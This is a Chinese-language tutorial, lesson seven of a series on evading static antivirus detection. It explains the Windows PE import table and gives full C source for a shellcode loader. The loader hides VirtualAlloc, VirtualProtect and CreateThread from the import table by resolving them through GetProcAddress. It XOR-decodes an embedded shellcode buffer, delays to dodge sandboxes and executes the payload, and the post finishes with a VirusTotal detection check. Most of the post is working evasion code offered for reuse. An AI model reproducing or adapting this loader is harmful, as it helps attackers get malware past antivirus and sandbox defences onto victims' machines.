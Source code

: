 ```yaml
---
title: 静态恶意代码逃逸（第七课）
layout: post
date: '2020-10-23'
permalink: "/archivers/2020-10-23/1"
description: 本节课，我们需要引入导入表的概念，并且通过代码的小技巧来隐藏导入表，减少文件特征
---
```



代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 导入地址表（IAT）

> Import Address Table 由于导入函数就是被程序调用但其执行代码又不在程序中的函数，这些函数的代码位于一个或者多个DLL 中，当PE 文件被装入内存的时候，Windows 装载器才将DLL 装入，并将调用导入函数的指令和函数实际所处的地址联系起来(动态连接)，这操作就需要导入表完成.其中导入地址表就指示函数实际地址。 - 来源百度百科


如下图所示：

![2020-10-23-10-46-14](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e28c535df916bd93fd477be050ac55e3.png)

在PE结构中，存在一个导入表，导入表中声明了这个PE文件会载入哪些模块，同时每个模块的结构中又会指向模块中的一些函数名称。这样的组织关系是为了告诉操作系统这些函数的地址在哪里，方便修正调用地址。

站在反病毒的角度提出假想：既然所有的PE文件都有导入表，并且声明了一些模块，并且还能通过模块找到导入函数的名称，那么是否能够作为一个文件的风险值的评估方向？

方法论：

如果一个文件的文件大小在300KB以内，并且导入函数又有`Virtual Alloc`、`CreateThread`，且`VirtualAlloc`的最后一个参数是`0x40`，那么此文件是高危文件。

`0x40`被定义在`winnt.h`中：

```c
#define PAGE_NOACCESS           0x01    
#define PAGE_READONLY           0x02    
#define PAGE_READWRITE          0x04    
#define PAGE_WRITECOPY          0x08    
#define PAGE_EXECUTE            0x10    
#define PAGE_EXECUTE_READ       0x20    
#define PAGE_EXECUTE_READWRITE  0x40    
#define PAGE_EXECUTE_WRITECOPY  0x80  
```

看一下[第一课代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)编译出来的PE导出表：

![2020-10-23-11-13-58](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b0f5ee9273dac92263fb6ebc737d5608.png)


根据这个猜想，我们开始尝试在PE文件中抹去导入函数名称。

## 0x02 GetProcAddress获取函数地址

`GetProcAddress`这个API在Kernel32.dll中被导出，主要功能是从一个加载的模块中获取函数的地址。

函数声明如下：

```c++
FARPROC GetProcAddress(
  HMODULE hModule, // 模块句柄
  LPCSTR  lpProcName // 函数名称
);
```

`FARPROC`被定义在了`minwindef.h`中，声明如下：

```c
#define WINAPI      __stdcall

typedef int (FAR WINAPI *FARPROC)();
```

跟进它的声明能够发现是一个函数指针，也就是说`GetProcAddress`返回的是我们要找的函数地址。

## 0x03 自己动手获取函数地址

我们拿[第一课的代码](https://github.com/Rvn0xsy/BadCode/tree/master/BadCode)来尝试修改。

分析[第一课的代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)，主要流程：

```
VirtualAlloc -> VirtualProtect -> CreateThread -> WaitForSingleObject
```

这几个函数是比较明显的，并且都在`kernel32.dll`中导出，我们尝试自己定义他们的函数指针，然后利用`GetProcAddress`获取函数地址，调用自己的函数名称。

新建一个`C/C++`项目，定义如下：

```c++
typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD (WINAPI * ImportWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

然后在`main`函数中，定义四个函数指针来存放这些函数的地址。

```c++
	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");
```

完整代码如下：

```c
#include <Windows.h>
#include <intrin.h>
#include <WinBase.h>
#include <stdio.h>

typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD(WINAPI* ImportWaitForSingleObject)(
	HANDLE hHandle,
	DWORD  dwMilliseconds
	);



// 入口函数
int wmain(int argc, TCHAR* argv[]) {

	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");


	int shellcode_size = 0; // shellcode长度
	DWORD dwThreadId; // 线程ID
	HANDLE hThread; // 线程句柄
	DWORD dwOldProtect; // 内存页属性
/* length: 800 bytes */

	char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a...";


	// 获取shellcode大小
	shellcode_size = sizeof(buf);

	/* 增加异或代码 */
	for (int i = 0; i < shellcode_size; i++) {
		//Sleep(50);
		_InterlockedXor8(buf + i, 10);
	}
	
	/*
	VirtualAlloc(
		NULL, // 基址
		800,  // 大小
		MEM_COMMIT, // 内存页状态
		PAGE_EXECUTE_READWRITE // 可读可写可执行
		);
	*/

	char* shellcode = (char*)MyVirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE // 只申请可读可写
	);

	// 将shellcode复制到可读可写的内存页中
	CopyMemory(shellcode, buf, shellcode_size);

	// 这里开始更改它的属性为可执行
	MyVirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

	// 等待几秒，兴许可以跳过某些沙盒呢？
	Sleep(2000);

	hThread = MyCreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);

	MyWaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
	return 0;
}
```


编译后能够正常执行，并且我们查看一下导入表，我们自己定义的函数已经不在导入表中了：

![2020-10-23-11-26-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ee11ce9cb8b0e9f163240ec6f03b549c.png)


[Virus Total](https://www.virustotal.com/gui/file/6e46cbe74a6d82747d2eb057d49b449477ab9c5e7bc6a7be295cbe7c09d5a7e4/detection)一下看看：

![2020-10-23-11-30-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d0b832e644e41e56e5de675f1cda99c2.png)

目前这个程序仅仅只是在一个函数中进行调用，并且还有字符串硬编码的问题，下一课着重分享如何解决字符串硬编码的问题。